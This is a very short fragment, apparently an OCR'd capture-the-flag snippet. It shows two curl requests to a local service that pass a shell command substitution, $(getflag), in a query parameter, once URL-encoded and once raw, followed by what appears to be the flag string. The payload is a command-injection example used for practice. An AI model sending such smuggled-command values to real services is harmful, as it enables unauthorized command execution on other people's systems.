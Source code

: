 curl "localhost:4747?x=%24%28getflag%29"

curl "localhost:4747?x=$(getflag)"


ne2searoevaevoem4ov4ar8ap